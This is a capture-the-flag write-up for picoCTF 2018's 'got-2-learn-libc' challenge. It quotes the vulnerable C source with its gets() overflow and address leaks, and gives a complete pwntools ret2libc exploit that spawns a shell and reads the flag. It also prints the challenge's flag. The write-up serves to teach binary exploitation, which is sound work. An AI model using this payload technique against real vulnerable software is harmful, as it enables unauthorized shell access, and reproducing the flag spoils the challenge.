 # got-2-learn-libc
**Points: 250**

## Binary Exploitation

## Question
>This program gives you the address of some system calls. Can you get a shell? You can find the program in /problems/got-2-learn-libc_2_2d4a9f3ed6bf71e90e938f1e020fb8ee on the shell server. Source.

### Hint
>try returning to systems calls to leak information
>don't forget you can always return back to main()
## Solution
Let's check the source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

char useful_string[16] = "/bin/sh"; /* Maybe this can be used to spawn a shell? */


void vuln(){
  char buf[BUFSIZE];
  puts("Enter a string:");
  gets(buf);
  puts(buf);
  puts("Thanks! Exiting now...");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);


  puts("Here are some useful addresses:\n");

  printf("puts: %p\n", puts);
  printf("fflush %p\n", fflush);
  printf("read: %p\n", read);
  printf("write: %p\n", write);
  printf("useful_string: %p\n", useful_string);

  printf("\n");
  
  vuln();

  
  return 0;
}
```
The ASLR is activated so we need to leak an address to calculate the offset of the libc.
The binary helps us printing the directions so we don't need to use rops.

First, we need to get the addresses of system, exit and /bin/sh
Secondly we have to calculate the libc offset leaking an address.
Once we have the addresses we can execute a ret2libc standard.

```python
from pwn import *

padding = "A" * 160
# ldd vuln : /lib32/libc.so.6
# readelf -s /lib32/libc.so.6 | grep system
sys_libc = 0x0003a940
# readelf -s /lib32/libc.so.6 | grep exit
exit_libc = 0x0002e7b0
# readelf -s /lib32/libc.so.6 | grep puts
puts_libc = 0x0005f140
# strings -tx /lib32/libc.so.6 | grep /bin/sh
binsh_libc = 0x0015902b

p = process('/problems/got-2-learn-libc_2_2d4a9f3ed6bf71e90e938f1e020fb8ee/vuln')
p.recvuntil('puts: ')
vuln_puts = int(p.recvline().strip('\n'),16)

base = vuln_puts - puts_libc

sys = p32(sys_libc + base)
ext = p32(exit_libc + base)
binsh = p32(binsh_libc + base)

log.info("System: " + sys)
log.info("Exit: " + ext)
log.info("/bin/sh: " + binsh)

payload = padding + sys + ext + binsh

p.recv()
p.sendline(payload)
p.sendline('cat /problems/got-2-learn-libc_2_2d4a9f3ed6bf71e90e938f1e020fb8ee/flag.txt')
p.interactive()
```

![alt text](https://github.com/manulqwerty/picoCTF-2018-WriteUp/blob/master/Binary%20Exploitation/got-2-learn-libc/images/1.png)

### Flag
`picoCTF{syc4al1s_4rE_uS3fUl_bd99244d}`
